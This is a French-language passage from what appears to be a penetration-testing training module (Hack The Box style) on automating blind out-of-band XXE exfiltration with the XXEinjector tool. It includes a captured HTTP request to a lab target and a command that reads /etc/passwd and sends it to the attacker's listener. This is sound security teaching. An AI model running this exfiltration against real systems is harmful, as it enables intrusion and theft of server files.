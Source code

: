 Exfiltration OOB automatisée
----------------------------

Bien que dans certains cas, nous devions utiliser la méthode manuelle que nous avons apprise ci-dessus, dans de nombreux autres cas, nous pouvons automatiser le processus d'exfiltration aveugle des données XXE avec des outils. L'un de ces outils est [XXEinjector](https://github.com/enjoiz/XXEinjector) . Cet outil prend en charge la plupart des astuces que nous avons apprises dans ce module, y compris le XXE de base, l'exfiltration de source CDATA, le XXE basé sur les erreurs et le XXE OOB aveugle.

Pour utiliser cet outil pour l'exfiltration OOB automatisée, nous pouvons d'abord cloner l'outil sur notre machine, comme suit :

```
dsgsec@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...

```

Une fois que nous avons l'outil, nous pouvons copier la requête HTTP de Burp et l'écrire dans un fichier pour que l'outil l'utilise. Nous ne devons pas inclure les données XML complètes, uniquement la première ligne, et écrire `XXEINJECT`après comme localisateur de position pour l'outil :

Code : http

```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT

```

Maintenant, nous pouvons exécuter l'outil avec les drapeaux `--host`/ `--httpport`étant notre adresse IP et notre port, le `--file`drapeau étant le fichier que nous avons écrit ci-dessus et le `--path`drapeau étant le fichier que nous voulons lire. Nous sélectionnerons également les drapeaux `--oob=http`et `--phpfilter`pour répéter l'attaque OOB que nous avons faite ci-dessus, comme suit :

```
dsgsec@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:

```
